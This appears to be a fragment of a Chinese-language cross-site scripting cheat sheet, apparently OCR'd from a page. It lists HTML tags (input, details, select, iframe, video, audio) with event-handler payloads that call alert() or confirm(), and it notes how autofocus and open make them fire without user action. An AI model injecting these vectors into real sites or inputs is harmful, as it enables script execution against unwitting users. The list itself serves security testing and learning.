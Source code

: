 

```html
<input onfocus="alert('xss');">
```

```html
<input type="text" value="" onfocus="alert(1)" autofocus="" />
```



```
<input type="text" value='' <div/onmouseover='alert(1)'>X</div>
```



```
<input value=<><iframe/src=javascript:confirm(1)
```





### \<details>

```
<details ontoggle="alert('xss');">
使用open属性触发ontoggle事件，无需用户去触发
<details open ontoggle="alert('xss');">
```

### \<select>

```
<select onfocus=alert(1)></select>
通过autofocus属性执行本身的focus事件，这个向量是使焦点自动跳到输入元素上,触发焦点事件，无需用户去触发
<select onfocus=alert(1) autofocus>
```

### \<iframe>

```
<iframe onload=alert("xss");></iframe>
```

### \<video>

```
<video><source onerror="alert(1)">
```

### \<audio>

```
<audio src=x  onerror=alert("xss");>
```

### \<body>
